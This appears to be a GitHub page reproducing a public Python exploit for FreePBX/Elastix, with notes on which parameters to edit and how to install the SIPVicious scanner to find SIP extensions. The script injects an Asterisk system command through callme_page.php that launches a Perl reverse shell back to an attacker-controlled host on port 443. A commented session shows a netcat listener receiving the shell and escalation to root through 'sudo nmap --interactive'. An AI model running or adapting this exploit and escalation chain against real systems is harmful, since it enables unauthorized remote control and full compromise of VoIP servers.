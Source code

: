 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
# Discovered by Martin Tschirsich
# http://seclists.org/fulldisclosure/2012/Mar/234
# http://www.exploit-db.com/exploits/18649
############################################################
import urllib
rhost="172.16.254.72"
lhost="172.16.254.223"
lport=443
extension="1000"

# Reverse shell payload

url = 'https://'+str(rhost)+'/recordings/misc/callme_page.php?action=c&callmenum='+str(extension)+'@from-internal/n%0D%0AApplication:%20system%0D%0AData:%20perl%20-MIO%20-e%20%27%24p%3dfork%3bexit%2cif%28%24p%29%3b%24c%3dnew%20IO%3a%3aSocket%3a%3aINET%28PeerAddr%2c%22'+str(lhost)+'%3a'+str(lport)+'%22%29%3bSTDIN-%3efdopen%28%24c%2cr%29%3b%24%7e-%3efdopen%28%24c%2cw%29%3bsystem%24%5f%20while%3c%3e%3b%27%0D%0A%0D%0A'

urllib.urlopen(url)

# On Elastix, once we have a shell, we can escalate to root:
# root@bt:~# nc -lvp 443
# listening on [any] 443 ...
# connect to [172.16.254.223] from voip [172.16.254.72] 43415
# id
# uid=100(asterisk) gid=101(asterisk)
# sudo nmap --interactive

# Starting Nmap V. 4.11 ( http://www.insecure.org/nmap/ )
# Welcome to Interactive Mode -- press h <enter> for help
# nmap> !sh
# id
# uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**Modifications:** rhost, lhost, lport, extension.!!!!!

Finding SIP extension:
(example: external calls, 0 extension)

**SIPVicious tool** Installation: 
Kali install:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
apt-get install sipvicious
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
General install:
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
git clone https://github.com/EnableSecurity/sipvicious.git
python3 setup.py install
sipvicious_svmap -h
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![b6](https://user-images.githubusercontent.com/15195048/93913797-71b49c80-fcba-11ea-95aa-adda4375aba7.png)
 